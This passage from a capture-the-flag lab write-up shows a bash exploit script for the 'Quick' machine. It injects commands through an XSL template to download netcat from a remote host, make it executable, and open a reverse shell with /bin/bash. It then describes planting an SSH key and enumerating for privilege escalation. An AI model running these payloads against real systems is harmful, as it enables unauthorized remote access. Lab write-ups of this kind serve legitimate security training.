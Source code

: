 ```bash
echo ${STEP1} > ${STEP1}.txt
sed -r "s|CMD|wget -O\/tmp\/nc ${RHOST}\/nc|" esi.xsl > ${STEP1}.xsl
send "${STEP1}"

# Step 2: chmod +x /tmp/nc
echo ${STEP2} > ${STEP2}.txt
sed -r "s|CMD|chmod 777 \/tmp\/nc|" esi.xsl > ${STEP2}.xsl
send "${STEP2}"

# Step 3: run reverse shell
echo ${STEP3} > ${STEP3}.txt
sed -r "s|CMD|\/tmp\/nc ${RHOST} ${RPORT} -e \/bin\/bash|" esi.xsl > ${STEP3}.xsl
send "${STEP3}"

# Clean up
rm -rf $COOKIE
rm -rf ${STEP1}.{txt,xsl}
rm -rf ${STEP2}.{txt,xsl}
rm -rf ${STEP3}.{txt,xsl}
```

Let's give it a shot.

{% include asciinema.html url="https://asciinema.org/a/HXTfHp08LAZY5RQopa9i9Vkxn" title="Running exploit.sh" author="limbernie" speed="0.75" poster="npt:0:25" preload="preload" %}

Awesome.

## Low-Privilege Shell

With that, we can upgrade the shell to a full TTY by injecting a RSA public key we control to `/home/sam/.ssh/authorized_keys`. The flag `user.txt` is at `sam`'s home directory.

{% include image.html image_alt="360fa559.png" image_src="/688dabf6-a633-4a54-8deb-15f420ae544c/360fa559.png" %}

## Privilege Escalation

During enumeration of `sam`'s account, I notice the presence of another account `srvadm`.

{% include image.html image_alt="bb080dc4.png" image_src="/688dabf6-a633-4a54-8deb-15f420ae544c/bb080dc4.png" %}

### Local Port Forwarding

It appears that `srvadm` is running another virtual host on the loopback interface.

{% include image.html image_alt="c24d4df4.png" image_src="/688dabf6-a633-4a54-8deb-15f420ae544c/c24d4df4.png" %}

```
<VirtualHost *:80>
        AssignUserId srvadm srvadm
        ServerName printerv2.quick.htb
        DocumentRoot /var/www/printer
</VirtualHost>
```
